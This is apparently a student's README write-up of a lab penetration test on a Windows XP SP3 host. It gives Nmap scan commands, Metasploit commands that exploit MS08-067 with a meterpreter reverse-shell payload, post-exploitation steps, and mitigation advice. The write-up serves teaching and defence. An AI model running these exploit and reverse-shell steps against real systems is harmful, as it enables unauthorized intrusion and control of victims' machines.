 **Penetration Testing Project: Windows XP Internal Network**

This project simulates a penetration test on an internal network using Nmap and Metasploit to identify and exploit vulnerabilities, specifically targeting a Windows XP Service Pack 3 (SP3) system. The focus of this simulation is to understand Remote Code Execution (RCE) vulnerabilities and to document exploitation steps, successful access, and mitigation recommendations.

**📋 Project Overview**
**Objective**
To conduct a penetration test on a Windows XP SP3 machine in an internal network, identifying active hosts, analyzing vulnerabilities, and attempting exploitation to gain access.

**Goals**
**Network Scanning:** Identify active hosts, open ports, and services.
**Vulnerability Analysis**: Determine potential vulnerabilities based on open services and software versions.
**Exploitation:** Successfully exploit identified vulnerabilities to achieve remote code execution.
**Post-Exploitation:** Perform post-exploitation tasks upon successful access.
**Reporting:** Document findings, exploitation steps, and recommend security measures.

**🔧 Tools and Techniques Used**
**Nmap:** Network scanning and vulnerability detection.
**Metasploit:** Exploitation framework for vulnerability testing.
**Meterpreter:** Post-exploitation tool within Metasploit for interacting with the compromised system.

**🖥️ Penetration Testing Methodology**

**1. Network Scanning and Enumeration with Nmap**
The initial step involved scanning the internal network to identify active hosts, open ports, and running services on the Windows XP SP3 target.
Command:
nmap -sV -p- 192.168.0.175
Findings:
Active ports: 135 (msrpc), 139 (netbios-ssn), 445 (microsoft-ds), and 3389 (RDP).
SMB protocol identified on port 445.

**2. Vulnerability Analysis**
After identifying open ports and services, the next step was to analyze potential vulnerabilities. Nmap’s vulnerability scripts were used to check for common SMB-related vulnerabilities.
Command:
nmap --script vuln 192.168.0.175
Notable Findings:
SMB version 1, which is vulnerable to multiple RCE exploits, including the MS08-067 and EternalBlue (MS17-010) vulnerabilities.

**3. Successful Exploitation of MS08-067 with Metasploit**
Based on the vulnerability analysis, the MS08-067 exploit was used to target an RCE vulnerability in SMB on Windows XP.

Metasploit Commands:
bash
Copy code
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.0.175
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your IP>
exploit
Result: A session was successfully created, granting remote access to the target system with meterpreter.

**🧪 Post-Exploitation with Meterpreter**
Upon successful exploitation, the following post-exploitation tasks were carried out:

System Information Gathering: Obtained details about the compromised system, such as OS version, architecture, and user accounts.
command: sysinfo
Privilege Escalation: Attempted to escalate privileges within the compromised system.
command: getsystem
Network Exploration: Identified other hosts on the network.
command: arp
Persistence: Explored persistence options to retain access after system reboots.
Note: All actions were performed in a controlled environment without impacting any production system.

🔍 Key Learning Points on Remote Code Execution (RCE)
RCE vulnerabilities allow attackers to execute code remotely, providing unauthorized access.
SMB on Windows XP is especially vulnerable, highlighting the risks of using outdated systems.
Mitigation of RCE risks includes disabling unnecessary services, regularly patching software, and enforcing strict input validation.

🔒 Recommendations for Mitigating RCE Vulnerabilities
Update and Patch Systems Regularly: Ensure that legacy systems, like Windows XP, are either patched or isolated from the main network.
Disable SMBv1: As this protocol is outdated and vulnerable, disable it if not required for operational purposes.
Network Segmentation: Separate legacy or high-risk systems from critical network assets.
Intrusion Detection Systems (IDS): Deploy IDS/IPS solutions to monitor and alert on suspicious traffic.

📝 Conclusion
This penetration test provided hands-on experience with RCE vulnerabilities, network scanning, and exploitation techniques. Successfully exploiting the MS08-067 vulnerability highlighted the importance of patching and security best practices to prevent unauthorized access and remote code execution.

📄 References
Nmap Scripting Engine (NSE): https://nmap.org/book/nse.html
Metasploit Documentation: https://docs.metasploit.com/
Microsoft Security Bulletins:
MS08-067: https://technet.microsoft.com/library/security/ms08-067
